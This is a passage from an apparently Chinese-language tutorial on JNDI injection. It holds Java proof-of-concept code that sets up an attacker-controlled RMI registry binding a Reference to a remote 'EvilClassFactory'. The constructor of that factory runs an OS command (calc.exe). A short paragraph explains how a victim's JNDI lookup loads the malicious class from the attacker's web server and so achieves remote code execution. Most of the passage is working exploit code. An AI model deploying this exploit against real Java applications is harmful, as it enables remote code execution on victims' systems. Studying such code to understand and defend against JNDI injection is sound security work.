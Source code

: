 ```java
        }
        System.out.println("[*] ClassFactoryLocation: " + url);
        Registry registry = LocateRegistry.createRegistry(1099);
        Reference refObj = new Reference("EvilClass", "EvilClassFactory", url);
        ReferenceWrapper refObjWrapper = new ReferenceWrapper(refObj);
        System.out.println("[*] Binding 'demo' to 'rmi://192.168.136.1:1099/demo'");
        registry.bind("demo", refObjWrapper);
    }
}
//EvilClassFactory.java
import javax.naming.Context;
import javax.naming.Name;
import javax.naming.spi.ObjectFactory;
import java.io.*;
import java.rmi.RemoteException;
import java.rmi.server.UnicastRemoteObject;
import java.util.Hashtable;

public class EvilClassFactory extends UnicastRemoteObject implements ObjectFactory {
    public EvilClassFactory() throws RemoteException{
        super();
        InputStream inputStream;
        try {
            inputStream = Runtime.getRuntime().exec("calc.exe").getInputStream();
            BufferedInputStream bufferedInputStream = new BufferedInputStream(inputStream);
            BufferedReader bufferedReader = new BufferedReader(new InputStreamReader(bufferedInputStream));
            String linestr;
            while ((linestr = bufferedReader.readLine()) != null){
                System.out.println(linestr);
            }
        }catch (IOException e){
            e.printStackTrace();
        }

    }

    @Override
    public Object getObjectInstance(Object obj, Name name, Context nameCtx, Hashtable<?, ?> environment) throws Exception {
        return null;
    }
}
```

攻击者将恶意类`EvilClassFactory.class`放置在自己的Web服务器后，通过往`RMI`注册表服务端的`classFactoryLocation`参数输入攻击者的Web服务器地址后，当受害者的`RMI`客户端通过`JNDI`来查询`RMI`注册表中年绑定的demo对象时，会找到`classFactoryLocation`参数被修改的`Reference`对象，再远程加载攻击者服务器上的恶意类`EvilClassFactory.class`，从而导致`JNDI`注入、实现远程代码执行
